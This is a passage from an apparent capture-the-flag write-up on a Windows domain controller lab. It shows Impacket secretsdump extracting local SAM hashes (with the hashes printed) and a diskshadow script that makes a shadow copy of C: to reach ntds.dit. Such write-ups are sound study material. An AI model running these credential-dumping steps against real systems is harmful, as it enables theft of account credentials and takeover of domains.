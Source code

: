```

Info: Download successful!
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

After getting them on our local machine, we can use **secretsdump.py** from Impacket to extract the credentials.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows/files]
└─$ secretsdump.py -sam sam.reg -system system.reg LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

We successfully extracted the local Administrator's NTLM hash, however there's something missing. I treated this part like a non-domain-joined machine and extracted the local credentials from SAM instead of targeting the domain credentials. 

Now let's start targeting the domain credentials located in the *ntds.dit* file. I followed the steps specified on the same post as above. Start by creating the file below.

```
# chrono.dsh
set context persistent nowriters
add volume c: alias chrono
create
expose %chrono% z:
```

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows/files]
└─$ unix2dos chrono.dsh
unix2dos: converting file chrono.dsh to DOS format...
```

After that, I uploaded the *chrono.dsh* file and created a shadow copy of the C: drive.

```
*Evil-WinRM* PS C:\Temp> upload chrono.dsh
...SNIP...
*Evil-WinRM* PS C:\Temp> diskshadow /s chrono.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  1/25/2025 8:56:27 AM

-> set context persistent nowriters
-> add volume c: alias chrono
-> create
Alias chrono for shadow ID {9c8474c6-d67a-401e-a611-2649e7f01c8b} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {d1f65e75-d98c-4716-9e6a-c820ee4f1306} set as environment variable.

Querying all shadow copies with the shadow copy set ID {d1f65e75-d98c-4716-9e6a-c820ee4f1306}

        * Shadow copy ID = {9c8474c6-d67a-401e-a611-2649e7f01c8b}               %chrono%
                - Shadow copy set: {d1f65e75-d98c-4716-9e6a-c820ee4f1306}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 1/25/2025 8:56:28 AM
```